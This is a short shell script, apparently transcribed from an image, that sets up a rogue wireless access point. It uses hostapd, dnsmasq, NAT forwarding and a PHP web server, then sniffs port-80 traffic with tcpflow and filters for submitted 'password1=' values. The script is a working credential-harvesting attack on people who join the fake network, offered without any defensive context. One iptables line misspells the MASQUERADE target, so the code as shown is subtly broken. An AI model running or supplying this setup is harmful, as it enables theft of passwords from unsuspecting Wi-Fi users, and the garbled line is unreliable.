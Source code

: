 hostapd hostapd.conf
dnsmasq -C dnsmasq.conf
ifconfig wlan1 up 192.168.1.1 netmask 255.255.255.0
route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.1
iptables --table nat --append POSTROUTING --out-interface wlan0 -j MASKQUERADE
iptables --append FORWARD --in-interface wlan1 -j ACCEPT
echo 1 > /proc/sys/net/ipv4/ip_forward
php -S 192.168.1.1:80
tcpflow -i wlan1 -C -g port 80 | grep -i "password1="
#wlan1 = monitor interface
